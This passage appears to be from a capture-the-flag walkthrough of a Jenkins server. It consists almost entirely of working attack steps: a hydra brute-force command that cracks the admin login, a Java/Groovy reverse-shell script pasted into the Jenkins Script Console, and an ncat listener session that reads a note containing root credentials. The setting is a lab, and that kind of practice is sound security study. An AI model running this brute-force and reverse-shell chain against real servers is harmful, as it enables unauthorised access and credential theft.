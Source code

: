 _kali: hydra -l admin -P /usr/share/wordlists/rockyou.txt -t 30 127.0.0.1 -s 8080 http-post-form '/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password'_

```txt
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-14 18:47:51
[DATA] max 30 tasks per 1 server, overall 30 tasks, 14344399 login tries (l:1/p:14344399), ~478147 tries per task
[DATA] attacking http-post-form://127.0.0.1:8080/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password
[STATUS] 459.00 tries/min, 459 tries in 00:01h, 14343940 to do in 520:51h, 30 active
[8080][http-post-form] host: 127.0.0.1   login: admin   password: spongebob
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-14 18:50:02
```

## Jenkins 

---

**Go to:**

Manage Jenkins > Script Console

_**Paste [Java Reverse-Shell Groovy Script](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76)**_

```java
String host="localhost";
int port=8044;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

### Inside the Jenkins Server

```txt
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.96.232.
Ncat: Connection from 10.10.96.232:40550.
id
uid=1000(jenkins) gid=1000(jenkins) groups=1000(jenkins)

cd opt 
ls
note.txt
cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
```
